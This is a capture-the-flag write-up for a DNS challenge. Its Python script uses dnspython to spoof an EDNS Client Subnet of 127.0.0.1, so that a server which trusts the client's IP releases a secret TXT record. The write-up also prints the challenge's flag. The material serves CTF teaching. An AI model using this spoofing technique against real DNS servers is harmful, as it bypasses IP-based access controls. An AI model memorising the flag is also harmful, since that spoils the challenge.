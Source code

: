 # DNS

Solved by: @vicevirus

## Question:
This DNS server reveals a secret to a special IP. Can you make it think you’re connecting from 127.0.0.1?

`dig TXT flag @129.153.36.153`

## Solution:
bypass using `ECS` (EDNS Client Subnet) params.  It's almost like `X-Forwarded-For` but for DNS

```
import dns.message
import dns.query
import dns.edns
import dns.exception

# Define the DNS server and query parameters
dns_server = '129.153.36.153'
query_name = 'flag'
query_type = 'TXT'

# Create the DNS query for the TXT record 'flag'
query = dns.message.make_query(query_name, query_type)

# Define ECS parameters
ecs_address = '127.0.0.1'
source_prefix = 32  # Full IP address
scope_prefix = 0    # Typically 0 unless specifying a more restrictive scope

# Construct the ECS option using positional arguments
ecs_option = dns.edns.ECSOption(ecs_address, source_prefix, scope_prefix)

# Add the ECS option to the EDNS0 options
query.use_edns(options=[ecs_option])

try:
    # Send the DNS query over UDP
    response = dns.query.udp(query, dns_server, timeout=5)

    # Check and print the response
    if response.answer:
        for answer in response.answer:
            print(answer.to_text())
    else:
        print("No answer received or the server did not provide the flag.")
except dns.exception.Timeout:
    print("The DNS query timed out. Please check your network connection and try again.")
except Exception as e:
    print(f"An error occurred: {e}")
    ```

**Flag:`UDCTF{sp00fing_5ucc3ss_127_0_0_1_f728bf}`** 
